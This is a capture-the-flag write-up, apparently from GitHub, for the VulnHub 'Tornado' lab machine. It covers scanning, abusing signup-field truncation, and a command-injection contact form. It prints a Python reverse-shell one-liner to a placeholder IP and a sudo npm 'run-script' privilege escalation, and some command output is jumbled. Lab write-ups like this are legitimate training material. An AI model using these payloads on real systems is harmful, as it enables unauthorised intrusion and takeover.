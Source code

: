 # Torando 
[Room Link](https://www.vulnhub.com/entry/ia-tornado,639/)

![image](https://user-images.githubusercontent.com/5285547/121968926-21f79300-cd6b-11eb-88a2-531041557970.png)


## Enumeration

Let's start with some enum!

### Nmap
```bash
nmap -p- -v 192.168.56.122
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Gobuster

```bash
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.122/manual/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.56.122/javascript/]
/server-status        (Status: 403) [Size: 279]                                        
/bluesky              (Status: 301) [Size: 318] [--> http://192.168.56.122/bluesky/] 
```

bluesky? lets check it out

```bash
gobuster dir -u http://192.168.56.122/bluesky  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 14979]
/login.php            (Status: 200) [Size: 824]  
/contact.php          (Status: 302) [Size: 2034] [--> login.php]
/about.php            (Status: 302) [Size: 2024] [--> login.php]
/signup.php           (Status: 200) [Size: 825]                 
/css                  (Status: 301) [Size: 322] [--> http://192.168.56.122/bluesky/css/]
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x /imgs                 (Status: 301) [Size: 323] [--> http://192.168.56.122/bluesky/imgs/]
/js                   (Status: 301) [Size: 321] [--> http://192.168.56.122/bluesky/js/]  
/logout.php           (Status: 302) [Size: 0] [--> login.php]                            
/dashboard.php        (Status: 302) [Size: 2024] [--> login.php]                         
/port.php             (Status: 302) [Size: 2098] [--> login.php]   
```

Nice, we have a signup.php and login.php. Looks like a good place to start.  
Lets create an account and check the web app out. 

http://192.168.56.122/bluesky/

![image](https://user-images.githubusercontent.com/5285547/121968941-2d4abe80-cd6b-11eb-9c53-2be3f22bbcc6.png)

http://192.168.56.122/bluesky/signup.php

![image](https://user-images.githubusercontent.com/5285547/121969063-700c9680-cd6b-11eb-95eb-4f10ec2fa170.png)

After registering and going to login.php we get a dashbaord interface.

![image](https://user-images.githubusercontent.com/5285547/121969202-afd37e00-cd6b-11eb-9f1c-4a4443556bc1.png)

![image](https://user-images.githubusercontent.com/5285547/121969243-c11c8a80-cd6b-11eb-8e4b-d235c460b5ff.png)

![image](https://user-images.githubusercontent.com/5285547/121969267-d2659700-cd6b-11eb-996a-eea16e5413c9.png)

![image](https://user-images.githubusercontent.com/5285547/121969288-dee9ef80-cd6b-11eb-9461-ddcb1d8576e0.png)

Ok, so the contact form is not working and not much else is present apart from the hint for LFI. After testing I could not find any LFI vulnerability.  
Checking the source code of the web pages, we see one comment out of place on the portfolio.php page. 

```html
<!-- /home/tornado/imp.txt -->
```

Now the LFI makes sense, after trying a few variations we can get the working payload as

```bash
http://192.168.56.122/~tornado/imp.txt
```

![image](https://user-images.githubusercontent.com/5285547/121969565-7bac8d00-cd6c-11eb-882b-bd3585f0d9ba.png)

Now we have a list of what looks like varified users. Lets test the accounts and see if any have higher prividledges.
Using Burp community I captured the signup.php request and sent it to intruder so i can see if i can make the account on the list.  
It seemded none had extra access we see jacob@tornado, admin@tornado, hr@tornado are already registered.  
In the requests response I noticed a 'name:-13' element. On successful signup it was 'name:-15'

![image](https://user-images.githubusercontent.com/5285547/121970450-7d775000-cd6e-11eb-91c5-4eff2081d8b9.png)

I then tried to edit the source code with dev tools (F12) field to allow more charaters in the email field.
Changing the charate limit to 20 then trying again with 'jacob@tornado a' we can make a new acocunt. After now loggin in with jacob, 
the contact form works. 

![image](https://user-images.githubusercontent.com/5285547/121970990-a815d880-cd6f-11eb-9065-c3f320f98b6e.png)

![image](https://user-images.githubusercontent.com/5285547/121971000-b06e1380-cd6f-11eb-9535-e0f15dc61742.png)

Using tcpdump we can see if we get any ping back to our machine, which we do.

```bash
sudo tcpdump -i eth1
```

![image](https://user-images.githubusercontent.com/5285547/121971233-2e321f00-cd70-11eb-983c-5540275aede0.png)

## User

Looks like we can get a reverse connection. 

Payload
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
kill current terminal
```
Ctrl + z
```
echo raw stty then forground it
```
stty raw -echo;fg
```
select terminal
```
xterm
```
when you get the terminal back enter
```
export TERM=xterm
```

![image](https://user-images.githubusercontent.com/5285547/121971512-c3351800-cd70-11eb-8e80-f06ad6df8344.png)

Enumerating the system we quickly see our priv esc route on the machine. 

![image](https://user-images.githubusercontent.com/5285547/121972155-4acf5680-cd72-11eb-86d2-0ce04c48c006.png)


First i created an index.js file  
cd /tmp  
mkdir shell  
echo 'module.exports = install could be dangerous' > index.js  
cp index.js shell  

Now we need a package.json file and chmod to make it executable, then we can run the sudo command to user.

package.json
```json
{
  "name": "shell",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "shell": "/bin/bash"
  },
  "author": "",
  "license": "ISC"
}
```

```bash
sudo -u catchme npm run-script shell
```

![image](https://user-images.githubusercontent.com/5285547/121973542-6c7e0d00-cd75-11eb-9fd0-e5a514ec3277.png)

![image](https://user-images.githubusercontent.com/5285547/121973630-a3ecb980-cd75-11eb-9039-3ad591d17b11.png)

We see a 'enc.py'

```bash
cat enc.py
```

```bash
s = "abcdefghijklmnopqrstuvwxyz"
shift=0
encrypted="hcjqnnsotrrwnqc"
#
k = input("Input a single word key :")
if len(k) > 1:
        print("Something bad happened!")
        exit(-1)

i = ord(k)
s = s.replace(k, '')
s = k + s
t = input("Enter the string to Encrypt here:")
li = len(t)
print("Encrypted message is:", end="")
while li != 0:
        for n in t:
                j = ord(n)
                if j == ord('a'):
                        j = i
                        print(chr(j), end="")
                        li = li - 1

                elif n > 'a' and n <= k:
                        j = j - 1
                        print(chr(j), end="")
                        li = li - 1
#----snip

Seeing this was a ceasar cipher i wrote a quick python script to guess the key for me. 

```python3
import string

alphabet = string.ascii_lowercase  # "abcdefghijklmnopqrstuvwxyz"
encrypted = "hcjqnnsotrrwnqc"  # message
enc_len = len(encrypted)  # msg length

for i in range(40):
    plain_text = ""
    for c in encrypted:
        if c.islower():
            # find the position in 0-25
            c_unicode = ord(c)
            c_index = ord(c) - ord("a")
            # perform the negative shift
            new_index = (c_index - i) % 26
            # convert to new character
            new_unicode = new_index + ord("a")
            new_character = chr(new_unicode)
            # append to plain string
            plain_text = plain_text + new_character
        else:
            # since character is not uppercase, leave it as it is
            plain_text += c
    print(f"ID:{i} - {plain_text}")
```

![image](https://user-images.githubusercontent.com/5285547/121975840-7b1af300-cd7a-11eb-8d84-897fb52460cb.png)

The password wasn't 100% and will require some guess work, but that's root and the last flag! 

![image](https://user-images.githubusercontent.com/5285547/121976051-ef559680-cd7a-11eb-9eeb-4a11cbfb7d92.png)


Hope you liked the guide. Happy hacking :)
